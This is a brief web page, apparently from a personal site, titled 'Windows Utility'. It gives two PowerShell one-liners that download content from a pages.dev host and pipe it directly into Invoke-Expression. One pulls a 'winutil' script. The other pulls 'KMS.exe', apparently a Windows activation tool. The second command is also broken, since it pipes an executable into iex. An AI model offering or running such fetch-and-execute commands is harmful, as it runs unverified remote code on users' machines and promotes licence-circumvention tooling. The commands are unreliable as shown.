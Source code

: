 +++
title = "Windows Utility"
date = 2025-06-25
+++

Use at your own risk.

winutil

`irm "https://ankitnaik-xyz.pages.dev/program/winutil.ps1" | iex`

KMS


`irm "https://ankitnaik-xyz.pages.dev/program/KMS.exe" | iex`
